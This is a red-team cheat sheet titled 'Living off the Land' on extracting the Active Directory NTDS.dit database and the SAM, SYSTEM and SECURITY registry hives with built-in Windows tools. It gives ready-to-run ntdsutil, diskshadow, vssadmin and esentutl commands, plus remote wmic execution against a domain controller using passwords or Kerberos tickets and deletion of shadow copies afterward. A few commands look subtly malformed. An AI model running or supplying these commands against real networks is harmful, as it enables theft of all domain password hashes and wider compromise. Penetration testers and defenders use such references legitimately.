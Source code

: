 # Living off the Land

## 01 - Common Windows File Locations

The file can be found in the following Windows location:

```
C:\Windows\NTDS\NTDS.dit
```

## 02 - Command Prompt

### 2.1 - Enumerate Registry Files

```
C:\> reg query [\\<IP>\]HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### 2.2 - Extract Shadow File

#### 2.2.1 - Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q

C:\> dir c:\temp
```

#### 2.2.2 - DiskShadow

^c70a55

- Write down the diskshadow commands in a text file to automate the process.

```
C:\> mkdir C:\exfil

C:\> type C:\diskshadow.txt
set context persistent nowriters
add volume c: alias ShadowVolume
create
expose %ShadowVolume% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %ShadowVolume%
reset
```

- Then extract shadow file and SYSTEM from registry. Once two files are present go to [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/05 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Unix Shell|section to use impacket to extract credentials via hashdump]].

```
C:\> diskshadow.exe /s c:\diskshadow.txt
C:\> reg save hklm\system c:\exfil\system.bak
C:\> dir c:\exfil
```

#### 2.2.3 - VSSAdmin.exe

```
C:\> vssadmin create shadow /for=C:\Windows\NTDS\NTDS.dit > c:\extract.dit

C:\> vssadmin create shadow /for=C: 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy 2>&1

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1

C:\> dir C:\ShadowCopy\

C:\> vssadmin delete shadows /for=C:
```

Can be performed laterally via `wmic.exe`.

```
C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic /node:<domain_controller_IP> [/user:<DOMAIN>\<username>] [/password:<password>] process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

You can also pass the ticket.

```
C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd.exe /c vssadmin create shadow /for=C: 2>&1"

C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\NTDS\NTDS.dit C:\ShadowCopy & \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<n>\Windows\System32\config\SYSTEM C:\ShadowCopy 2>&1"

C:\> dir \\<domain_controller_IP>\C$\ShadowCopy\

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\NTDS.dit c:\Windows\Temp\NTDS.dit

C:\> copy \\<domain_controller_IP>\C$\ShadowCopy\SYSTEM c:\Windows\Temp\SYSTEM

C:\> wmic /authority:"kerberos:<domain>\<computername>" /node:<domain_controller_IP> process call create "cmd /cvssadmin delete shadows /for=C: 2>&1"
```

#### 2.2.4 - esentutl.exe

```
C:\> esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
esentutl.exe /y /vss C:\Windows\System32\config\SECURITY /d c:\temp\security
esentutl.exe /y /vss C:\Windows\System32\config\SYSTEM /d c:\temp\SYSTEM
```

## 03 - Powershell

### Enumerate Registry Files

```
C:\> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\NTDS\Parameters -Value "DSA Database file"
```

### Extract Shadow File

TODO: Include powershell cmdlets to convert some of the techniques below

---
## References

- [Pentestlab Blog: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)

- [Active Directory Security: How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

- [Red Team Notes: Dumping Domain Controller Hashes Locally and Remotely](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration)

- [Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-domain-controller-hashes-via-wmic-and-shadow-copy-using-vssadmin)

- [DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)

- [Red Team Notes: Dumping SAM via Esentutl](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-sam-via-esentutl.exe)

- [Password Auditing: How to Extract and Analyse Domain User Passwords](https://www.surecloud.com/resources/blog/extract-analyse-domain-user-passwords)

- [Ultimate IT Security: Creating a shadow copy of ntds.dit and the SYSTEM file](https://www.ultimatewindowssecurity.com/blog/default.aspx?p=bbcddadf-677f-4f60-9d55-914f631c3d1a)

- [Netwrix: Extracting Password Hashes from the Ntds.dit File](https://blog.netwrix.com/2021/11/30/extracting-password-hashes-from-the-ntds-dit-file/)